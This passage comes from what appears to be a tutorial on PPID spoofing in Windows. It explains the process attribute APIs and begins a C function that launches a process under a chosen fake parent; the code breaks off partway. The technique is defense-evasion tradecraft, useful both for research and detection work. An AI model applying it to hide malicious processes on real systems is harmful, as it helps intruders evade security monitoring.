 * `lpValue` - The handle of the parent process.
* `cbSize` - The size of the attribute value specified by the `lpValue` parameter. This will be set to `sizeof(HANDLE)`.

### **Implementation Logic**

The steps below sum up the required actions to perform PPID spoofing.

1. `CreateProcessA` is called with the `EXTENDED_STARTUPINFO_PRESENT` flag to provide further control over the created process.
2. The `STARTUPINFOEXA` structure is created which contains the attributes list, `LPPROC_THREAD_ATTRIBUTE_LIST`.
3. `InitializeProcThreadAttributeList` is called to initialize the attributes list. The function must be called twice, the first time determines the size of the attributes list and the next call is the one that performs the initialization.
4. `UpdateProcThreadAttribute` is used to update the attributes by setting the `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` flag which allow the user to specify the parent process of the thread.

### **PPID Spoofing Function**

`CreatePPidSpoofedProcess` is a function that creates a process with a spoofed PPID. The function takes 5 arguments:

* `hParentProcess` - A handle to the process that will become the parent of the newly created process.
* `lpProcessName` - The name of the process to create.
* `dwProcessId` - A pointer to a DWORD that receives the newly created process's PID.
* `hProcess` - A pointer to a HANDLE that receives a handle to the newly created process.
* `hThread` - A pointer to a HANDLE that receives a handle to the newly created process's thread.


```
BOOL CreatePPidSpoofedProcess(IN HANDLE hParentProcess, IN LPCSTR lpProcessName, OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {

	CHAR                               lpPath               [MAX_PATH * 2];
	CHAR                               WnDr                 [MAX_PATH];

	SIZE_T                             sThreadAttList       = NULL;
	PPROC_THREAD_ATTRIBUTE_LIST        pThreadAttList       = NULL;

	STARTUPINFOEXA                     SiEx                = { 0 };
	PROCESS_INFORMATION                Pi                  = { 0 };

	RtlSecureZeroMemory(&SiEx, sizeof(STARTUPINFOEXA));
	RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));

	// Setting the size of the structure
	SiEx.StartupInfo.cb = sizeof(STARTUPINFOEXA);

	if (!GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH)) {
		printf("[!] GetEnvironmentVariableA Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);

	//-------------------------------------------------------------------------------

	// This will fail with ERROR_INSUFFICIENT_BUFFER, as expected
	InitializeProcThreadAttributeList(NULL, 1, NULL, &sThreadAttList);

	// Allocating enough memory
	pThreadAttList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sThreadAttList);
	if (pThreadAttList == NULL){
```